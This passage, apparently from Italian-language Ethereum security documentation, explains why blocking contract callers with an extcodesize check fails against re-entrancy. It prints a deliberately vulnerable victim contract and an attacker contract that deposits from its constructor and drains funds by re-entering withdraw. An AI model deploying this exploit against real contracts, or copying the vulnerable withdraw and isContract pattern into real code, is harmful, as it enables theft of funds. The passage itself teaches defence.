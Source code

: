 
### Come gestire il codice rientrante (in modo sbagliato) {#how-to-deal-with-re-entrancy-the-wrong-way}

Si potrebbe pensare di difendersi dal codice rientrante semplicemente impedendo a qualsiasi Smart Contract di interagire con il proprio codice. Se cerchi stackoverflow, trovi questo frammento di codice con tantissimi voti a favore:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Sembra avere senso: i contratti hanno codice, se il chiamante ha un codice, non si consente di depositare. Aggiungiamolo:

```solidity
// QUESTO CONTRATTO CONTIENE VULNERABILITA' INTENZIONALI, NON COPIARE
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NUOVA LINEA
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Per depositare ETH, non bisogna avere codice di Smart Contract al proprio indirizzo. A questo però si può facilmente ovviare con il seguente contratto di Attacker:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- Nuova linea
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```

